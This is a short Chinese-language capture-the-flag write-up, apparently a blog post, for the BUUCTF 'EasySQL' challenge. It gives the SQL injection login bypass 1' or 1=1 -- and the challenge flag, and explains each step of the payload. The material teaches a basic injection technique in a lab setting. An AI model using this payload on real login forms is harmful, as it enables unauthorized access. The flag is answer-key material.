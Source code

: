 ```yaml
---
title: 1. [极客大挑战 2019] EasySQL 1
date: 2022-11-25 20:50:00
updated: 2022-11-25 20:50:00
tag: 
  - BUUCTF
---
```

{% folding blue, 题解 %}
用户名
```
1' or 1=1 -- qwe
```
密码
```
任意
```
即可获得：
```
flag{7c629a0b-9e30-4c8a-83b2-272136091ae1}
```
{% endfolding %}

## 思路

### 1. 闭合引号

```sql
1'
```

### 2. 加入or条件

```sql
or 1=1
```

### 3. 注释无用信息

```sql
-- qwe      //注释后文
```

